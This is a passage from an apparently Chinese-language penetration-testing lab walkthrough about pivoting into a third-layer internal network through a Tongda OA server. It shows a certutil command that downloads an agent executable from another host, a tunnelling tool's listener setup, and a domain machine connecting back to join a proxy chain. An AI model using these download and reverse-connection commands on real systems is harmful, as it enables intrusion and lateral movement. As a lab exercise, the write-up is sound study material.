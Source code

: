 经过测试不出网，选择将 agent 放在第二层网络 - 通达 OA 服务器上访问去下载。

```bash
certutil -urlcache -split -f http://192.168.52.30:8080/windows_x64_agent.exe
```

![验证第三层代理 -2.png](assets/1708583756-530ea9231bc5f57a8ba158d61cc84f32.png)

在节点 Note 1（通达 OA）上开启监听端口 192.168.93.20:20001。

```bash
(node 1) >> listen
[*] BE AWARE! If you choose IPTables Reuse or SOReuse,you MUST CONFIRM that the node you're controlling was started in the corresponding way!
[*] When you choose IPTables Reuse or SOReuse, the node will use the initial config(when node started) to reuse port!
[*] Please choose the mode(1.Normal passive/2.IPTables Reuse/3.SOReuse): 1
[*] Please input the [ip:]<port> : 192.168.93.20:20001
[*] Waiting for response......
[*] Node is listening on 192.168.93.20:20001
(node 1) >> 
```

域内单机反向连接到 Note 1（第二层网络 - 通达 OA）。

```bash
C:\Users\moretz.WHOAMIANONY\Desktop>windows_x64_agent.exe -c 192.168.93.20:20001 -s test
2023/03/13 18:21:18 [*] Starting agent node actively.Connecting to 192.168.93.20:20001
```

OA 节点主动显示新节点 Note 2 连接，成为 Note 1 子节点。

